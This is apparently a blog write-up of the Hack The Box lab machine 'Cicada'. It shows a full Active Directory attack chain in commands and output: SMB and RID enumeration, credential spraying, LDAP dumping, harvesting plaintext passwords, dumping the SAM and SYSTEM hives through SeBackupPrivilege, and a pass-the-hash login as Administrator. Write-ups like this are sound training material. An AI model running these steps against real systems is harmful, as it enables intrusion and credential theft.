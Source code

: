 ```yaml
---
title: HTB - Cicada
description: The Cicada is an Easy HTB season 6 machine involves exploiting a Windows Active Directory setup.
author: mashhood
date: 2024-09-30 12:12:00 +0800
description: 
categories: [Writeup]
tags: [htb]
media_subpath: '/assets/img/posts/30092024/'
---
```


# HTB - Cicada

The Cicada is an Easy HTB season 6 machine involves exploiting a Windows Active Directory setup. By enumerating SMB shares, we gradually gain access to sensitive information. After finding passwords in shared files and an LDAP domain dump, we escalate privileges to gain full control of the system.

## Enumeration

After performing an initial Nmap scan, several interesting services were identified:

```
─(kali㉿kali)-[~/Desktop]  
└─$nmap 10.10.11.35 -sC -sV --min-rate 1000 -oN nmap-cicada.txt 
# Nmap 7.94SVN scan initiated Mon Sep 30 01:31:37 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV --min-rate 1000 -oN nmap-cicada.txt 10.10.11.35
Nmap scan report for 10.10.11.35
Host is up (0.20s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-30 12:32:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, 
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)

Host script results:
| smb2-time: 
|   date: 2024-09-30T12:32:49
|_  start_date: N/A
|_clock-skew: 7h00m15s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

There is no web based technology available here. So, with SMB (`445/tcp`) and LDAP (`389/tcp`, `636/tcp`) available, it’s worth investigating these services further. Since nmap shows that the Domain name of the target system is cicada.htb, we will add it to our `/etc/hosts` file
```
─(kali㉿kali)-[~/Desktop]  
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.11.35     cicada.htb
```

## SMB Enumeration

Using `smbclient`, we attempt to list shares:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ smbclient -L 10.10.11.35
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
DEV             Disk
HR              Disk
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

The interesting shares here are `DEV` and `HR`. The `HR` share have a file named `Notice from HR.txt` . 
```
─(kali㉿kali)-[~/Desktop]  
└─$ smbclient \\\\10.10.11.35\\HR -N
smb: \> ls
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024
```
The password `Cicada$M6Corpb*@Lp#nZp!8` for the new employee's account was found within this document.
So, we attempt to gather usernames via `crackmapexec` by brute-forcing the RID which reveals several users:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ crackmapexec smb 10.10.11.35 -u anonymous -p "" --rid-brute

1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1601: CICADA\emily.oscars (SidTypeUser)
```

We create a wordlist with the found usernames and attempt to brute force credentials using `crackmapexec` which reveals that the credential we discovered before is for the user **Michael Wrightson**:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ crackmapexec smb 10.10.11.35 -u users-cicada.txt -p pass.txt

SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

```
michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

## LDAP Enumeration

Using Michael Wrightson’s credentials, we perform an LDAP domain dump:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ ldapdomaindump ldap://10.10.11.35 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

From the domain dump, we discover **David Orelious’s password** in the description section of domain users:

![Desktop View](/cicada-ldap.png)

```
david.orelious:aRt$Lp#7t*VQ!3
```

## SMB Access - DEV Share

With David Orelious’s credentials, we access the **DEV** SMB share:

```bash
smbclient //10.10.11.35/DEV -U david.orelious
```

In the **DEV** share, we find a **Backup_script.ps1** file, which contains another set of credentials for **Emily Oscars**:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

```
emily.oscars:Q!3@Lp#M6b*7t*Vt
```

## Privilege Escalation

#### Evil-WinRM Access
Using Emily Oscar’s credentials, we establish a connection via `evil-winrm`:

```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

Once connected, we check the privileges with `whoami /priv`. Here, we notice that Emily has high-privilege tokens enabled:

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

####  Dumping SAM and SYSTEM

With **SeBackupPrivilege** enabled, we can use it to dump the **SAM** and **SYSTEM** registry hives to extract hashes for privilege escalation.
Copy the `sam` file and `system` to a folder with these command and download it to the attacker machine.
``` powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
Then use `pypykatz` to extract the hash from these files.
```bash
pypykatz registry --sam sam system
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

With this hash we can login as Administrator using `evil-winrm`.
```
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

# Reference
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
